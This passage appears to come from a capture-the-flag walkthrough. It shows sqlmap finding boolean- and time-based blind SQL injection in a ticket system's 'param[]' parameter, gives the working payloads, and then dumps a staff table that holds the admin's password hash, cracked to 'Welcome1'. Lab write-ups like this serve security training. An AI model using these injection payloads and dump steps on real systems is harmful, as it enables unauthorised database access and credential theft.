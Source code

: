     [17:33:38] [INFO] GET parameter 'param[]' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
    [17:33:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [17:33:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [17:33:38] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
    [17:33:39] [INFO] target URL appears to have 9 columns in query
    injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
    [17:33:51] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
    [17:33:53] [INFO] target URL appears to be UNION injectable with 9 columns
    injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
    ...[snip]...
    [17:34:23] [INFO] checking if the injection point on GET parameter 'param[]' is a false positive
    GET parameter 'param[]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 433 HTTP(s) requests:
    ---
    Parameter: param[] (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6 AND 6277=6277
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6 AND SLEEP(5)
    ---
    [17:34:29] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
    web application technology: Apache 2.4.18
    back-end DBMS: MySQL >= 5.0.12
    [17:34:29] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.121'
    

I’ve got the injection. Now I’ll run with `--dump`. One table that looks
interesting is:

    
    
    Database: support
    Table: staff
    [1 entry]
    +----+-------+------------+--------------------+--------+--------+----------+---------------+----------+-----------------------------------------------------+--------------------------------+------------+--------------------+------------------------+                     
    | id | admin | login      | email              | status | avatar | username | fullname      | timezone | password                                            | signature                      | last_login | department         | newticket_notification |                     
    +----+-------+------------+--------------------+--------+--------+----------+---------------+----------+-----------------------------------------------------+--------------------------------+------------+--------------------+------------------------+                     
    | 1  | 1     | 1547216217 | support@mysite.com | Enable | NULL   | admin    | Administrator | <blank>  | d318f44739dced66793b1a603028133a76ae680e (Welcome1) | Best regards,\r\nAdministrator | 1543429746 | a:1:{i:0;s:1:"1";} | 0                      |                     
    +----+-------+------------+--------------------+--------+--------+----------+---------------+----------+-----------------------------------------------------+--------------------------------+------------+--------------------+------------------------+ 
    